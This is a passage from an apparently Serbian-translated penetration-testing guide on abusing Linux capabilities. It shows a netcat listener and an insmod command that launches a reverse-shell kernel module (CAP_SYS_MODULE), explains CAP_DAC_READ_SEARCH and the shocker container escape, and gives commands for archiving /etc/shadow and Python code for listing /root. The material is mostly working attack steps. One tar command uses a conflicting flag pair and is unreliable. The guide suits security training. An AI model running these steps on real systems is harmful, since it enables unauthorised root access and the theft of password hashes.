 Na kraju, pokrenite `nc` unutar jedne ljuske i **učitajte modul** iz druge ljuske kako biste uhvatili ljusku u procesu nc:

```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```

**Kod ove tehnike je kopiran iz laboratorije "Zloupotreba SYS\_MODULE sposobnosti" sa** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

Još jedan primer ove tehnike može se pronaći na [https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)

## CAP\_DAC\_READ\_SEARCH

[**CAP\_DAC\_READ\_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) omogućava procesu da **zaobiđe dozvole za čitanje fajlova i za čitanje i izvršavanje direktorijuma**. Njegova osnovna namena je pretraga fajlova ili čitanje fajlova. Međutim, takođe omogućava procesu da koristi funkciju `open_by_handle_at(2)`, koja može pristupiti bilo kom fajlu, uključujući one van mount namespace-a procesa. Handle koji se koristi u `open_by_handle_at(2)` trebao bi biti netransparentni identifikator dobijen putem `name_to_handle_at(2)`, ali može sadržati osetljive informacije poput brojeva inode-a koji su podložni manipulaciji. Potencijal za iskorišćavanje ove sposobnosti, posebno u kontekstu Docker kontejnera, demonstrirao je Sebastian Krahmer sa exploitom shocker, kako je analizirano [ovde](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3). **Ovo znači da možete zaobići provere dozvola za čitanje fajlova i provere dozvola za čitanje/izvršavanje direktorijuma.**

**Primer sa binarnim fajlom**

Binarni fajl će moći da čita bilo koji fajl. Dakle, ako fajl poput tar-a ima ovu sposobnost, biće u mogućnosti da čita shadow fajl:

```bash
cd /etc
tar -czf /tmp/shadow.tar.gz shadow #Compress show file in /tmp
cd /tmp
tar -cxf shadow.tar.gz
```

**Primer sa binary2**

U ovom slučaju pretpostavimo da **`python`** binarna datoteka ima ovu sposobnost. Da biste izlistali root fajlove, možete uraditi sledeće:

```python
import os
for r, d, f in os.walk('/root'):
for filename in f:
print(filename)
```

I da biste pročitali datoteku, možete uraditi sledeće:

